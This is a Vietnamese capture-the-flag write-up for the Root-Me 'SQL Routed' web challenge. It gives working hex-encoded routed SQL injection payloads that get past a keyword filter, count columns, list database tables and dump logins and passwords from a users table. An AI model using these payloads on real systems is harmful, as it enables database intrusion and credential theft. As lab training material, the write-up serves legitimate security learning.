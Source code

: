 # Rootme.SQL-Routed

Point: 35

Exploit my requests

Statement: Find the password

Related resource: [Routed SQL Injection - Zenodermus Javanicus (Exploitation - Web)](https://securityidiots.com/Web-Pentest/SQL-Injection/routed_sql_injection.html)

# Overview

Form cảu challlenge như sau

![image](https://user-images.githubusercontent.com/115911041/232952854-5b94276c-de72-41b4-8842-c8bbeec403a1.png)

Challenge lần này cung cấp cho ta một web có chứng năng login và search. Vậy ta cần phải tìm password để login vào administrator

# Solution

Sau một vài lần thử một số payload đơn giản ở `Home` thì không có gì nhiều xảy ra. Mình chuyển sang `Search` để tiếp tục, sau khi thừ chèn `'` thì đã có hi vọng

![image](https://user-images.githubusercontent.com/115911041/232953414-aec1b1fa-fed5-4ea2-8d1e-ee945fd49e9f.png)

Vậy là database đang sử dụng MariaDB. Mình tiếp tục thử các lệnh khác thì đều bị filter hết như `or`, `and`, `order by`.

Nếu các bạn có đọc tài liệu mà challenge đã cung cấp thì sẽ biết cách bypass SQL-Routed.Là chúng ta sẽ chuyển câu truy vấn sang dạng hex là xong.

``` 
#Hex of: -1' union select login,password from users-- a
-1' union select 0x2d312720756e696f6e2073656c656374206c6f67696e2c70617373776f72642066726f6d2075736572732d2d2061 -- a
```

Nếu các bạn muốn nhanh thì có thể sử dụng payload đó vào phần search là sẽ ra flag. Nhưng mình sẽ tiếp tục sử dụng cách khác để có thể hiểu bài hơn.Như anh Khánh đã từng nói:"Làm được python tồi hãy nghĩ đến sử dụng tool".

Bước đầu, mình sử dụng query này:
`' UNION SELECT 1 -- -`

![image](https://user-images.githubusercontent.com/115911041/232954760-1d4d65e0-6176-4cb8-8019-751c1930ff06.png)

Vậy chứng tỏ là sau khi thực hiện câu lệnh union select 1, nó sẽ tiếp tục đi thực hiện một câu lệnh truy vấn khác nữa. Vì nếu chỉ có 1 câu lệnh thì nó sẽ trả về 1 thôi.

Bây giờ ta chỉ cần xác định số column, mình sẽ sử dụng `order by`

```
#Hex of: 'union select order by 1-- -
'union+select+0x276f7264657220627920312d2d202d- 
```
Sau đó tăng dần đến 3 thì báo lỗi ` Unknown column '3' in 'order clause'`, vậy số column là 2. Giờ ta sẽ xác định cột nào bị lỗi

```
#Hex of: 'union select 1,2-- -
'union+select+0x27756e696f6e2073656c65637420312c322d2d202d--+
```
![image](https://user-images.githubusercontent.com/115911041/233455933-9de6acd6-b610-4eaa-a593-024007610bc4.png)

Cả 2 cột đều bị lỗi.Tiếp theo ta sử dụng hàm [group_concat](https://www.w3resource.com/mysql/aggregate-functions-and-grouping/aggregate-functions-and-grouping-group_concat.php) và hàm [database()](https://www.w3schools.com/mysql/func_mysql_database.asp)

```
#Hex of: 'union select 'union select 1, (select group_concat(table_name,'-') from information_schema.tables where table_schema=database()-- -- --
'union+select+0x27756e696f6e2073656c6563742027756e696f6e2073656c65637420312c202873656c6563742067726f75705f636f6e636174287461626c655f6e616d652c272d27292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573207768657265207461626c655f736368656d613d64617461626173652829292d2d202d2d202d2d202d2d -- --
```


